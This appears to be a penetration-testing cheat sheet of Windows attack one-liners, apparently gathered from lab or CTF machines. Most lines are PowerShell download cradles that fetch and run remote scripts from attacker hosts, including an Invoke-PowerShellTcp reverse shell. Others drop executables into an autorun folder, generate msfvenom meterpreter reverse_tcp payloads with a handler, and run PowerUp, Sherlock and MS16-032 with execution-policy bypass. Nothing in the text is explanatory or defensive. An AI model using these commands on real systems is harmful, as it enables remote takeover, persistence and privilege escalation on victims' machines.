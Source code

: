 powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

powershell IEX(New-Object Net.WebClient).downloadString(‘http://<attacking machine>/Empire.ps1')


C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\10.10.14.124\kali\tools\enumeration\nmapAutomator\10.129.1.127\MS16-032.ps1

###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
###
If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
###
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
